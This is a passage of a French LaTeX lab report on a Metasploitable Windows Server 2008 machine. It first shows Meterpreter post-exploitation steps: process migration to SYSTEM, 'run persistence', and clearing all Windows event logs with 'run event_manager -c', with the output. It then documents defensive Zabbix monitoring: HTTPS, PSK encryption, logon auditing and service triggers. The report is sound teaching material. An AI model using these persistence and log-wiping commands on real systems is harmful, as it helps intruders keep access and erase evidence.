    
\includegraphics[width=0.99\linewidth]{images/post-exploitation-ps.PNG}
    \caption{Post exploitation: affichage de tous les processus avec: \texttt{\footnotesize ps}}
    \label{fig:postPs}
\end{figure}





\subsubsection{Maintient de l'accès au serveur}





Commandes utilisées:
\begin{itemize}
    \item \texttt{\footnotesize sessions 2}
    \item \texttt{\footnotesize migrate 692}
    \item \texttt{\footnotesize run persistence}
\end{itemize}
Résultat sur la figure \ref{fig:postMaintien}. \\
\textbf{Note}: j'ai migré vers le service de PID 692 mais c'était un problème car il n'a pas assez de privilèges pour la suite. J'ai donc refait l'exploit et migré vers le service 364 parce que son utilisateur est: \texttt{\footnotesize NT AUTHORITY$\backslash$SYSTEM}, et il a plus de privilèges que: \texttt{\footnotesize NT AUTHORITY$\backslash$NETWORK SERVICE}.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\linewidth]{images/post-exploitation-maintient.PNG}
    \caption{Post exploitation: maintient de l'accès au serveur}
    \label{fig:postMaintien}
\end{figure}





\subsubsection{Recouvrement des traces}





Commandes utilisées:
\begin{itemize}
    \item traces laissées dans les logs: \texttt{\footnotesize run event\_manager -i}
    \begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
Event Logs on System
====================

Name                    Retention  Maximum Size  Records
----                    ---------  ------------  -------
Application             Disabled   20971520K     5248
HardwareEvents          Disabled   20971520K     0
Internet Explorer       Disabled   K             0
Key Management Service  Disabled   20971520K     0
Security                Disabled   20971520K     20620
System                  Disabled   20971520K     6918
Windows PowerShell      Disabled   15728640K     1301
\end{Verbatim}
    \end{example}
    \item suppression des logs: \texttt{\footnotesize run event\_manager -c}
    \begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
[-] You must specify and eventlog to query!
[*] Application: 
[*] Clearing Application
[*] Event Log Application Cleared!
[*] HardwareEvents: 
[*] Clearing HardwareEvents
[*] Event Log HardwareEvents Cleared!
[*] Internet Explorer: 
[*] Clearing Internet Explorer
[*] Event Log Internet Explorer Cleared!
[*] Key Management Service: 
[*] Clearing Key Management Service
[*] Event Log Key Management Service Cleared!
[*] Security: 
[*] Clearing Security
[*] Event Log Security Cleared!
[*] System: 
[*] Clearing System
[*] Event Log System Cleared!
[*] Windows PowerShell: 
[*] Clearing Windows PowerShell
[*] Event Log Windows PowerShell Cleared!
\end{Verbatim}
    \end{example}
    \item traces restantes dans les logs: \texttt{\footnotesize run event\_manager -i}
    \begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
Event Logs on System
====================

Name                    Retention  Maximum Size  Records
----                    ---------  ------------  -------
Application             Disabled   20971520K     0
HardwareEvents          Disabled   20971520K     0
Internet Explorer       Disabled   K             0
Key Management Service  Disabled   20971520K     0
Security                Disabled   20971520K     1
System                  Disabled   20971520K     2
Windows PowerShell      Disabled   15728640K     0
\end{Verbatim}
    \end{example}
\end{itemize}
Il faut aussi, bien entendu, aller supprimer les fichiers uploadés et les dossiers créés pendant la phase d'exploitation. On en a créé pendant l'exploitation des services ftp, webdav et tomcat; on n'en a pas créé pour l'exploitation des services ssh et winrm.















\newpage \section{Partie Zabbix}










\subsection{Passer en HTTPS et sécuriser la communication entre les agents et serveur Zabbix}





Pour passer de HTTP à HTTPS, il faut ajouter une clé et un certificat auto-signé, modifier le port et activer ssl. J'ai modifier le fichier de configuration comme sur la figure \ref{fig:zabbix62}.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.55\linewidth]{images/zabbix-62.png}
    \caption{Modification du fichier de configuration de Zabbix pour utiliser HTTPS}
    \label{fig:zabbix62}
\end{figure}

Voici les commandes utilisées pour créer et signer cette clé et ce certifiat (dans le dossier: /etc/nginx/ssl):
\begin{itemize}
    \item \texttt{\footnotesize sudo openssl genrsa -des3 -out server.key 4096}
    \item \texttt{\footnotesize sudo openssl req -new -key server.key -out server.csr}
    \item \texttt{\footnotesize sudo openssl rsa -in server.key -out server.key}
    \item \texttt{\footnotesize sudo openssl x509 -req -in server.csr -signkey server.key -out server.crt}
\end{itemize}

Vous pouvez voir le résultat sur la figure \ref{fig:zabbix61}.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.55\linewidth]{images/zabbix-61.png}
    \caption{Connexion en HTTPS à Zabbix}
    \label{fig:zabbix61}
\end{figure}

Pour ce qui est du chiffrement des communications entre l'agent Zabbix et le serveur, j'ai mis en place le chiffrement PSK qui est à clé partagée, vous pouvez voir les configurations sur les figures \ref{fig:zabbix02} et \ref{fig:zabbix08}.

\begin{figure}[H]
    \centering
    \includegraphics[width=0.70\linewidth]{images/zabbix-02.png}
    \caption{Création d'une clé PSK lors de l'installation de l'agent Zabbix sur Windows Server 2008}
    \label{fig:zabbix02}
\end{figure}
\begin{figure}[H]
    \centering
    \includegraphics[width=0.95\linewidth]{images/zabbix-08.png}
    \caption{Chiffrement PSK sur le serveur Zabbix}
    \label{fig:zabbix08}
\end{figure}










\newpage \subsection{Monitorer la machine Metasploitable selon un template OS adéquat}





Sur la figure \ref{fig:zabbix03}, vous pouvez voir que j'ajoute l'hôte metasploitable, dans \textit{Groups}, j'ai mis \textit{Templates/Operating systems}. Ensuite, sur la figure \ref{fig:zabbix04}, après avoir été dans l'onglet \textit{Templates}, dans \textit{Link new templates}, j'ai mis: \textit{Windows by Zabbix agent}.

\begin{figure}[H]
    \centering
    \includegraphics[width=0.95\linewidth]{images/zabbix-03.png}
    \caption{Ajout de l'hôte Metasploitable}
    \label{fig:zabbix03}
\end{figure}
\begin{figure}[H]
    \centering
    \includegraphics[width=0.95\linewidth]{images/zabbix-04.png}
    \caption{Template OS: Windows by Zabbix agent}
    \label{fig:zabbix04}
\end{figure}










\newpage \subsection{Superviser les traces de connexion des utilisateurs et super-utilisateurs sur la Metasploitable}





Avant de pouvoir superviser les traces de connexion des utilisateurs, il faut déjà qu'ils en fasse. C'est pour cela que j'ai activé l'audit des événements de logon (figure \ref{fig:zabbix15}). Vous pouvez ensuite voir un de ces événements dans l'\textit{Event Viewer} sur la figure \ref{fig:zabbix28}. On y voit notamment son \textit{Event ID} qui sera nécessaire pour la configuration de l'\textit{item} sur Zabbix serveur.

\begin{figure}[H]
    \centering
    \includegraphics[width=0.95\linewidth]{images/zabbix-15.png}
    \caption{Activation de l'audit pour les événements de logon}
    \label{fig:zabbix15}
\end{figure}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\linewidth]{images/zabbix-28.png}
    \caption{Event Viewer montrant une connexion sur Windows Server 2008}
    \label{fig:zabbix28}
\end{figure}

Pour monitorer les connexions des utilisateurs, j'ai créé un item (figure \ref{fig:zabbix32}) avec la clé: \textit{eventlog[Security,,,,4624,,skip]}. J'ai utilisé la documentation représentée sur la figure \ref{fig:zabbix29}. 4624 est l'\textit{Event ID} récupéré dans l'\textit{Event Viewer} (figure \ref{fig:zabbix28}) et skip est un paramètre permettant de passer les événements qui se sont déjà passés pour n'avoir que ceux qui se passent maintenant (pour ne pas être inondés de signaux).

Ensuite, il faut aussi faire un \textit{trigger} qui sert à activer des alertes sur le dashboard lors de la connexion de n'importe quel utilisateur (figure \ref{fig:zabbix35}). Dessus, j'ai utilisé la fonction \textit{str()} qui sert à comparer les noms des utilisateurs qui se connectent à la chaîne de caractères \textit{V} que j'ai laissée vide pour que tous les comptes correspondent. On peut voir une de ces alertes sur le dashboard sur la figure \ref{fig:zabbix31}.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\linewidth]{images/zabbix-32.png}
    \caption{Création d'un item pour monitorer les connections des utilisateurs}
    \label{fig:zabbix32}
\end{figure}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\linewidth]{images/zabbix-29.png}
    \caption{Documentation sur eventlog, nécessaire pour monitorer les événements sur les agents Zabbix}
    \label{fig:zabbix29}
\end{figure}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\linewidth]{images/zabbix-35.png}
    \caption{Création d'un trigger pour monitorer les connections des utilisateurs}
    \label{fig:zabbix35}
\end{figure}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\linewidth]{images/zabbix-31.png}
    \caption{Alerte de connection d'un utilisateur sur le dashboard}
    \label{fig:zabbix31}
\end{figure}










\newpage \subsection{Monitorer l'état des services disponibles (liste des services dans l'énoncé)}





La première étape pour monitorer un service est de retrouver son nom dans la liste des services sur la machine Windows Server 2008, certains sont plus difficiles à trouver que d'autres. Par exemple, IIS a comme nom de service \textit{W3SVC} (figure \ref{fig:zabbix16}). La deuxième étape est de créer l'item (figure \ref{fig:zabbix17}). Dans \textit{Key}, il faut mettre \textit{service.info[W3SVC,state]}, pour dire qu'on va monitorer l'état de ce service.

\begin{figure}[H]
    \centering
    \includegraphics[width=0.95\linewidth]{images/zabbix-16.png}
    \caption{Service IIS dans la liste des services sur la Windows Server 2008}
    \label{fig:zabbix16}
\end{figure}
\begin{figure}[H]
    \centering
    \includegraphics[width=0.95\linewidth]{images/zabbix-17.png}
    \caption{Création d'un item pour monitorer le service IIS}
    \label{fig:zabbix17}
\end{figure}

Certains services sont plus faciles à trouver que d'autres. Dans ceux faciles, on a Apache (figure \ref{fig:zabbix27}), SNMP (figure \ref{fig:zabbix41}), WinRM (figure \ref{fig:zabbix42}), SSH (figure \ref{fig:zabbix44}), RDP (Remote Desktop, figure \ref{fig:zabbix48}) et FTP (figure \ref{fig:zabbix49}). Par contre, deux des services qu'on nous demande de monitorer ne sont pas des services, ce sont:
\begin{itemize}
    \item WMIC,
    \item Powershell.
\end{itemize}
J'ai dû aussi installer deux services qui n'étaient pas installés de base sur la machine:
\begin{itemize}
    \item Tomcat (figure \ref{fig:zabbix36}), dont les scripts pour l'installation sont pourtant présent sur le serveur,
    \item et PSEXEC (figures \ref{fig:zabbix52}) qui était introuvable sur le serveur (figure \ref{fig:zabbix45}). Je l'ai donc téléchargé (figure \ref{fig:zabbix51}) et installé.
\end{itemize}
Enfin, pour déterminer le service faisant tourner WebDAV, j'ai dû aller chercher dans les headers HTTP sur la page de WebDAV et comparer avec les services existants dans la machine Windows Server 2008 (figure \ref{fig:zabbix57}). Par ailleurs, quand on va dans le Server Manager, on remarque qu'il y a un service WebDAV (figure \ref{fig:zabbix63}). Comme ce service n'est pas installé mais que WebDAV fonctionne bien grâce au service wampapache, j'ai décidé de ne pas l'installer et de monitorer wampapache.

La liste de tous les items créés est disponible sur la figure \ref{fig:zabbix59}.

\begin{figure}[H]
    \centering
    \includegraphics[width=0.50\linewidth]{images/zabbix-27.png}
    \caption{Service Apache dans la liste des services sur la Windows Server 2008}
    \label{fig:zabbix27}
\end{figure}
\begin{figure}[H]
    \centering
    \includegraphics[width=0.95\linewidth]{images/zabbix-36.png}
    \caption{Service Tomcat dans la liste des services sur la Windows Server 2008}
    \label{fig:zabbix36}
\end{figure}
\begin{figure}[H]
    \centering
    \includegraphics[width=0.50\linewidth]{images/zabbix-41.png}
    \caption{Service SNMP dans la liste des services sur la Windows Server 2008}
    \label{fig:zabbix41}
\end{figure}
\begin{figure}[H]
    \centering
    \includegraphics[width=0.50\linewidth]{images/zabbix-42.png}
    \caption{Service WinRM dans la liste des services sur la Windows Server 2008}
    \label{fig:zabbix42}
\end{figure}
\begin{figure}[H]
    \centering
    \includegraphics[width=0.50\linewidth]{images/zabbix-44.png}
    \caption{Service SSH dans la liste des services sur la Windows Server 2008}
    \label{fig:zabbix44}
\end{figure}
\begin{figure}[H]
    \centering
    \includegraphics[width=0.50\linewidth]{images/zabbix-48.png}
    \caption{Service RDP (Remote Desktop) dans la liste des services sur la Windows Server 2008}
    \label{fig:zabbix48}
\end{figure}
\begin{figure}[H]
    \centering
    \includegraphics[width=0.50\linewidth]{images/zabbix-49.png}
    \caption{Service FTP dans la liste des services sur la Windows Server 2008}
    \label{fig:zabbix49}
\end{figure}
\begin{figure}[H]
    \centering
    \includegraphics[width=0.95\linewidth]{images/zabbix-57.png}
    \caption{Recherche du service derrière WebDAV (wampapache)}
    \label{fig:zabbix57}
\end{figure}
\begin{figure}[H]
    \centering
    \includegraphics[width=0.95\linewidth]{images/zabbix-63.png}
    \caption{Service WebDAV non-installé dans la liste des services du Server Manager}
    \label{fig:zabbix63}
\end{figure}
\begin{figure}[H]
    \centering
    \includegraphics[width=0.95\linewidth]{images/zabbix-45.png}
    \caption{PSEXEC est introuvable dans la liste des services comme dans le système de fichier}
    \label{fig:zabbix45}
\end{figure}
\begin{figure}[H]
    \centering
    \includegraphics[width=0.75\linewidth]{images/zabbix-51.png}
    \caption{Téléchargement de PSEXEC}
    \label{fig:zabbix51}
\end{figure}
\begin{figure}[H]
    \centering
    \includegraphics[width=0.50\linewidth]{images/zabbix-52.png}
    \caption{Service PSEXEC dans la liste des services sur la Windows Server 2008}
    \label{fig:zabbix52}
\end{figure}
\begin{figure}[H]
    \centering
    \includegraphics[width=0.99\linewidth]{images/zabbix-59.png}
    \caption{Liste de tous les items créés}
    \label{fig:zabbix59}
\end{figure}










\newpage \subsection{Générer des sondes personnalisées alertant sur le Dashboard de Zabbix lorsqu'un service ne répond pas}





La création d'un trigger est assez simple (figure \ref{fig:zabbix19}). Il faut sélectionner l'item pour lequel on veut créer le trigger, une fonction: \textit{last()}, qui sert à obtenir l'état le plus récent du service. Ensuite, j'ai mis: \textit{Result > 0}, car quand l'état du service est 0, il fonctionne correctement. Quand il est plus élevé, il y a un problème.

\begin{figure}[H]
    \centering
    \includegraphics[width=0.95\linewidth]{images/zabbix-19.png}
    \caption{Création du trigger pour IIS}
    \label{fig:zabbix19}
\end{figure}

Quand on coupe le service, comme sur la figure \ref{fig:zabbix24}, des alertes apparaissent après un certain temps (intervalle de 10 secondes que j'ai défini sur la figure \ref{fig:zabbix19}). Vous pouvez voir ces alertes sur la figure \ref{fig:zabbix25}, la liste de tous les triggers est sur la figure \ref{fig:zabbix58}.

\begin{figure}[H]
    \centering
    \includegraphics[width=0.65\linewidth]{images/zabbix-24.png}
    \caption{Coupure du service IIS sur la Windows Server 2008}
    \label{fig:zabbix24}
\end{figure}
\begin{figure}[H]
    \centering
    \includegraphics[width=0.95\linewidth]{images/zabbix-25.png}
    \caption{Alertes sur le dashboard suite à la coupure du service IIS}
    \label{fig:zabbix25}
\end{figure}
\begin{figure}[H]
    \centering
    \includegraphics[width=0.99\linewidth]{images/zabbix-58.png}
    \caption{Liste de tous les triggers créés}
    \label{fig:zabbix58}
\end{figure}















\section{Conclusion}





Ce travail a été long et difficile, comme en atteste la longueur de ce rapport. J'ai cependant beaucoup appris en le réalisant.




















\newpage \tableofcontents \listoffigures
\begin{thebibliography}{9}
\bibitem{1} https://docs.oracle.com/cd/E18930\_01/html/821-2416/giubb.html
% \bibitem{2} 
% \bibitem{3} 
% \bibitem{4} 
\end{thebibliography}




















\end{document}
